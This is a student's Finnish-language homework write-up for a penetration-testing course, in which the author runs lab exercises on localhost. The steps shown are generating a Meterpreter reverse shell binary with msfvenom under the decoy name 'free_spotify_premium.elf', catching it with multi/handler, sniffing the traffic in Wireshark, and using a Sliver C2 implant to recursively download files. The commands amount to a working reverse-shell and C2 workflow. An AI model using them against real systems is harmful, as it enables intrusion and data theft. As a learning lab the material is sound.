# h6 Simpukoita
Kotitehtävä h5 Syyskuu2025! Tero Karvisen Tunkeutumistestaus 2025 syksy -kurssille. [Linkki kurssisivulle](https://terokarvinen.com/tunkeutumistestaus/)
Jokaisessa kohdassa on alla olevalla "quote" tyylillä kerrottu tehtävänanto.
>Liirum laarum laa...

## Tehtävät
### a) 
> Snif Venom! Näytä esimerkki yhteydestä: reverse shell msfvenom:lla tehdystä binääristä -> metasploit multi/handler. Tarkastele yhteysttä snifferillä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Aluksi tein reverse shell haittatiedoston msfvenomilla sekä vaihdoin tiedoston oikeudet.

    mdkdir msfvenom
    cd msfvenom
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > free_spotify_premium.elf



Tämän jälkeen avasin `msfconsolen`. Sitten asetin moduulin `use exploit/multi/handler` sekä payloadin `set payload linux/x64/meterpreter/reverse_tcp`.



Sitten vielä LHOST:n sekä LPORT:n asettaminen.



 Kaikessa tässä pitää käyttää samoja asetuksia, kuin tehdyssä haittaohjelmassa.

Nyt testataan, että toimiiko reverse shell. Suoritetaan haittaohjelma ``./free_spotify_premium.elf`` sekä suoritetaan hyökkäys metasploitissa `use`. Ja sehän onnistui. 



Avasin wiresharkin ja valitsin, että wireshark tarkastelee ``loopback: lo`` interfacea. Vaikka meterpeter vain kuuntelee, näkyy silti sen ja kohdekoneen välinen liikenne wiresharkissa. 



 ### b)
 > Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

Aloitin lataamalla sliverin komennolla `curl https://sliver.sh/install|sudo bash` jonka jälkeen käynnistin sen `sliver`



Lähdin tämän jälkeen sueraaman sliverin sivuilta löytyvää tutoriaalia, https://sliver.sh/tutorials?name=1+-+Getting+Started. Se on tehty uudemmalle 1.6 versiolle, mutta katsotaan toimiiko se myös tällä vanhemmalla versiolla.

Loin haittaohjelman "implantin" komennolla `generate -b localhost --os linux --skip-symbols --debug`.



Sen jälkeen katsoin, oliko implant tullut sliveriin käytettäväksi ja käynnistin kuuntelijan portissa 80.



Kun nyt olin käynnistänyt kuuntelijan, suoritin implantin. Tästä tuli ilmoitus sliveriin, että uusi sessio avattu. 



Enää ei tarvinnut tehdä muuta kuin `use` jonka jälkeen kirjoitin implantin nimen `PRECIOUS_WINTER`. Implant toimi onnistuneesti ja testasin `ls` komentoa.



Testasin vielä ladata jonkin tiedoston kohdekoneelta omalle koneelleni. Tätä varten tein muutaman tiedoston.

    ┌──(ttma㉿tuntem)-[~]
    └─$ mkdir testfolder
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ cd testfolder 
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ echo "hi" > hi.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ echo "hello" > hello.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ cd ..        
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ mkdir hifolder          
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ cd hifolder 
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder]
    └─$ mkdir lol     
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder]
    └─$ cd lol     
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ echo "hello" > hello.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ echo "hi" > hi.txt      
                                                                                    
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ 

Sitten latasin koko kansion tiedostot sliverilla `download -r /home/ttma/hifolder/lol/
`. Tässä `-r` parametri kertoo, että ladataan rekursiivisesti koko kansio.





# Lähteet
https://terokarvinen.com/tunkeutumistestaus/
https://github.com/BishopFox/sliver
https://sliver.sh/
https://sliver.sh/tutorials?name=1+-+Getting+Started